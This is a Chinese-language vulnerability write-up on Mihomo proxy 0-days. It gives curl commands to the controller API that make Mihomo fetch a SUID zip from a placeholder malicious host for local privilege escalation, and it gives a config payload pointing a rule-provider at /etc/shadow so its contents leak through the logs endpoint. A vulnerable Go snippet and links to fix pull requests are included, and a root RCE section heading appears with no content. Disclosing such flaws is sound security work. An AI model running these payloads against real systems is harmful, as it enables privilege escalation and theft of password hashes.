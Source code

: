 
# Mihomo 0days

## external-ui 可下载 suid 程序导致本地提权

mihomo 也是个神人，过滤了软链接等一大堆东西，没过滤 suid 文件。

一般来说 zip 是没法保存 suid 位的，但是 go 的 zip 解压逻辑，zip也可以保留 suid 位

![alt text](assets/mihomo-0days/image.png)

通过控制 api, 可以修改 config 内容，使 mihomo 从恶意主机下载 suid 压缩包并解压为 suid 程序。

```bash
curl -X PUT "http://localhost:9999/configs" \
     -H "Authorization: Bearer 123" \
     -H "Content-Type: application/json" \
     -d '{"payload": "{\"external-ui\": \"real\", \"external-ui-url\": \"http://deadbeef.xxx/suid.zip\", \"external-ui-name\": \"shit\"}"}'

```

![alt text](assets/mihomo-0days/image-1.png)



修复：

https://github.com/MetaCubeX/mihomo/pull/2178


## rule-provider path 过滤不全导致利用报错任意读文件

可以看到 http 设置了 `IsSafePath` 检查，但是 file 属性没有

```go
	var vehicle P.Vehicle
	switch schema.Type {
	case "file":
		path := C.Path.Resolve(schema.Path)
		vehicle = resource.NewFileVehicle(path)
	case "http":
		path := C.Path.GetPathByHash("rules", schema.URL)
		if schema.Path != "" {
			path = C.Path.Resolve(schema.Path)
			if !C.Path.IsSafePath(path) {
				return nil, C.Path.ErrNotSafePath(path)
			}
		}
		vehicle = resource.NewHTTPVehicle(schema.URL, path, schema.Proxy, nil, resource.DefaultHttpTimeout, schema.SizeLimit)
	case "inline":
		return NewInlineProvider(name, behavior, schema.Payload, parse), nil
	default:
		return nil, fmt.Errorf("unsupported vehicle type: %s", schema.Type)
	}
```

先去 logs 接口监听日志

```bash
curl -X GET "http://localhost:9999/logs" \
     -H "Authorization: Bearer 123" \
     -H "Host: localhost"
```

然后让 `rule-provider` 读取 `/etc/shadow` 文件，解析器报错会通过日志接口显示出内容。

```bash
curl -X PUT "http://localhost:9999/configs" \
     -H "Authorization: Bearer 123" \
     -H "Content-Type: application/json" \
     -d '{"payload": "{\"log-level\": \"debug\", \"external-controller-unix\": \"mihomo.sock\", \"rule-providers\": {\"pwn\": {\"type\": \"file\", \"behavior\": \"classical\", \"format\": \"text\", \"path\": \"/etc/shadow\"}}}"}'

```

![alt text](assets/mihomo-0days/image-2.png)

修复：

https://github.com/MetaCubeX/mihomo/pull/2177


## 通过 api 接口实现 root RCE



